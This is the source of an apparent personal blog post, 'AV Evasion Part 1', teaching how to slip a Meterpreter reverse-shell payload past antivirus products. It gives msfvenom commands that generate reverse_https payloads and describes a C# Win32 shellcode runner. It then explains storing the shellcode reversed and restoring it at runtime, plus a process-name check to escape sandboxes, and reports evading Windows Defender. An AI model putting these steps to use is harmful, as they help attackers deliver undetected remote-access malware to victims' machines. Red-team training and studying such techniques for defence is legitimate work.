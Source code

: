 ```yaml
---
layout: post
title: 'AV Evasion Part 1'
category: evasion
---
```


After passing the [Offensive Security Certified Professional](https://www.offensive-security.com/pwk-oscp/) I felt on top of the world.  
But soon reality crept in and I realized that Windows Defender flagged the majority of what I was taught.  This gave me a false sense of security from a blue team standpoint in thinking that "Modern Anti-Virus companies are pretty good.  There is no way an attacker is sneaking past my EDR.

I was wrong.

It turns out that just playing with the payload a little bit completely negates detection and let's the red team run free.  I want to demonstrate in this post some fundamentals of Anti-Virus evasion.

We will start and see what a vanilla meterpreter payload gets us.  The following command will generate a meterpreter .exe file in Kali Linux.

<code>msfvenom -p windows/x64/meterpreter/reverse_https LHOST=eth0 LPORT=443 -f exe -o blog1.exe</code>

Now let's upload this to [antiscan.me](https://antiscan.me) and see how it gets detected.  AntiScan.me is used since it doens't distribute binaries to the AV venders which makes it more stealthy.

<img src="https://0xhop.github.io/images/evasion1/vanillaResult.PNG">

18/26 is a fair bit of detection.
(It's 2021, how do you not detect a vanilla meterpreter payload.  Come on vendors).

This would have been the end of me in my original PwK days.  Thanks to some basic [OSEP](https://www.offensive-security.com/pen300-osep/) training, we have a good base to work with.

Modern day malware heavily utilizes the Win32 API that is  built into Windows for several reasons.  
<ul>
<li> it is built into Windows so functionality doesn't have to be re-written </li>
<li> It doesn't get flagged by AV</li>
<li> it is fast and <i>usually</i> well documented. </li>
</ul>

<img src="https://0xhop.github.io/images/evasion1/winVanillaPayload.PNG">

We choose c# in this demonstration as it is easy to work in and well documented.  languages such as Boo and Nim work just as well.
This is a standard Win32 API shellcode runner in c# written in Visual Studio.  It uses the following function prototypes that were pulled from [P/Invoke](https://pinvoke.net). 

 * [VirtualAlloc](http://pinvoke.net/default.aspx/kernel32/VirtualAlloc.html) - Create an executable piece of memory.
 * [CreateThread](http://pinvoke.net/default.aspx/kernel32/CreateThread.html) - To start execution of the shellcode in memory. 
 * [WaitForSingleObject](http://pinvoke.net/default.aspx/kernel32/WaitForSingleObject.html) - To not crash upon receiving a command. 
 
We will generate some meterpreter c# shellcode and paste where the comment says to. 
<code> msfvenom -p windows/x64/meterpreter/reverse_https lhost=eth0 lport=443 -f csharp </code>


Lets compile our shellcode runner and scan again.

<img src="https://0xhop.github.io/images/evasion1/winVanillaReverse.PNG">

15 out of 26 still isn't great.  Let's play with our code and see if we can't get it down even farther.

Since we know our Win32 APIs aren't getting flagged by signature checks.  Let's mess with our shellcode.

Our shellcode get's stored as an Array in c#.  We can store our shellcode backwards and utilize the Array.Reverse() method to restore our shellcode at runtime to evade detection.

We will use [this site](https://yupana-engineering.com/online-reverse-byte-array) to reverse our byte array.

We will take the output from the website and put it over our existing shellcode.

Finally, we will implement our Array.Reverse method.  I went ahead and changed the buf variable name in case it would be associated with the signature.

<img src="https://0xhop.github.io/images/evasion1/ArrayReverse.PNG">

Let's reupload and see how we did.

<img src="https://0xhop.github.io/images/evasion1/winReverse1Result.PNG">

Our bypass was very sucessful!  Only 6 AVs are catching our payload.  Unfortunately, Windows Defender is one of them which is enabled on most devices by default

Let's see if we can't squeeze past it.  
We know our signature detection is pretty good, but what about heuristics? 
Unknown applications get executed in a sandbox before being allowed to execute natively.  If our payload can detect if we are in a sandbox, we can evade being flagged as malicious and execute.

Most sandboxes will dynamically rename the payload.  We will implement a simple process name check in our code and exit gracefully if the .exe is not named "hop.exe"

C# allows us to do this natively with the Diagnostics library using <code>System.Diagnostics.Process.GetCurrentProcess();</code>

<img src="https://0xhop.github.io/images/evasion1/FinalPayloadCheck.PNG">
 
Our code now checks to see if our process is named "hop.exe".  Let's upload one more time to see if we are sucessful.

<img src="https://0xhop.github.io/images/evasion1/FinalPayloadResults.PNG">

Excellent, our payload now evades Windows Defender and is only caught by 5 obscure AVs. Even better, the naming convention tells us we are suspect of a known malware variant or heuristics.

A follow up challenge for the reader is to research HEUR/AGEN.1131009 to see what the heuristic behavior our payload is performing and to research the Rozena malware for similarities to our payloads.

This concluses part one of my AV Evasion writeup and my first post.  

"Hop" to see everyone next time. 
